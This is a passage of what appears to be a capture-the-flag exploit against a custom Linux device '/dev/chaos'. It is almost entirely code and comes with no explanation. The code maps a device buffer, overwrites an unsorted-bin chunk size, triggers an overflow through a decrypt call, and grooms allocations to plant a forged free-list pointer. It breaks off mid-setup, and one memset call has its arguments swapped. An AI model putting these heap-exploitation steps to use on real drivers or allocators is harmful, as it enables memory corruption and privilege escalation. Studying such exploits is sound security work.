 ```cpp
    int ret;
    dev = open("/dev/chaos", 2);
    check(dev >= 0, "GG1");

    ret = ioctl(dev, CHAOS_ALLOCATE_BUFFER, 0x2000);
    check(ret == 0, "GG2");

    buf = mmap(0LL, 0x2000, 2LL, 1LL, dev, 0LL);
    check(buf != MAP_FAILED, "GG3");
    puts("run\n");
    print_regs();
    
   
    for(int i=0;i<0x10;i++)
	    pad[i] = create_key(0x10);

    uint32_t key_entry = 0;
    size_t* ptr = buf;
    uint32_t base = create_key(0x20);
    ptr[3] = 0x1101; // overwrite unsortebin size
    encrypt_buf(base,0x20);
    memcpy(secret,buf,0x20);
    ptr[0xff8/8] = ptr[3];  //put remain data

    //memset(buf,'A',0x1000);
    //
    ptr[(0x100-0x20+0x8)/8] = 0x20;
    ptr[(0x100-0x20+0x8)/8-1] = 0x1100;

    free_key(create_key(0x30));
    keys[0] = create_key(0x1000);
    uint32_t target = create_key(0x100);
    keys[1] = create_key(0x1000);
    

    free_key(keys[0]);
    keys[0] = create_key(0x2000);
    free_key(keys[1]);
    keys[1] = create_key(0x1000-0x30);
    memcpy(buf,secret,0x20);
    
    decrypt_buf(base,0x18); //overflow 
    
    free_key(create_key(0x100));
    free_key(target); 
    create_key(0xe00);
    ptr[0xb0/8] = fdaddr;
    printf("%p\n",fdaddr);
    create_key(0x190);
     
    ptr[0] = 0;
    free_key(pad[0]);
    free_key(pad[1]);
    free_key(pad[2]);
    free_key(pad[3]);
    create_key(0x100); 
    memset(ptr,0x100,0);
    ptr[0] = 1;
    ptr[1] = 0;
    ptr[2] = 0x0000000000201000;
    ptr[3] = 0x0000000000002000;
    ptr[4] = 0x0000000000100000;
    ptr[5] = 0x0000000000100000;
```
